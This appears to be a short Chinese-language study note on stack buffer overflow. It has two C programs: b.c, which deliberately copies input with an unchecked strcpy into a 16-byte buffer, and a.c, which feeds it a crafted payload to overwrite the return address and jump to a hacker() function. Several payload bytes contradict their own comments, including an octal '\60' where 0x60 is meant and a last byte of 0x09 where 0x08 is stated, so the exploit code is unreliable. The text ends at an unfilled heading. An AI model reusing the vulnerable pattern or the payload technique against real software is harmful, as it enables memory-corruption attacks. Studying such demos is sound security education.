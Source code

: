 ## 缓冲区溢出

在过程调用时，ret 指令返回地址是调用者的下一条指令处继续执行，若此时返回地址修改成了某个代码段的首地址，若这段代码是恶意代码，这就是缓冲区溢出攻击

```c
// a.c
#include <stdio.h>
#include <string.h>

char code[] =
    "0123456789abcdef"      // buffer不越界的字节内容
    "abcdabcd"              // buffer与ebp旧指之间需要填充的内容
    "\x38\xde\xff\xff"      // b的main的ebp值
    "\60\x84\x04\x08"       // hacker首地址0x08048460
    "\x9d\x84\x04\x09";     // outputs的返回地址0x0804849d

int main(int argc, char** argv)
{
    char *arg[3];
    arg[0] = "./b";
    arg[1] = code;
    arg[2] = NULL;
    execve(arg[0], arg, NULL);
    return 0;
}

// b.c
#include <stdio.h>
#include <string.h>

void outputs(char* str)
{
    char buffer[16];
    strcpy(buffer, str);
    printf("%s\n", buffer);
}

void hacker(void)
{
    printf("beging hacked\n");
}

int main(int argc, char** argv)
{
    outputs(argv[1]);
    printf("yes\n");
    return 0;
}
```

缓冲区溢出攻击程序的执行步骤
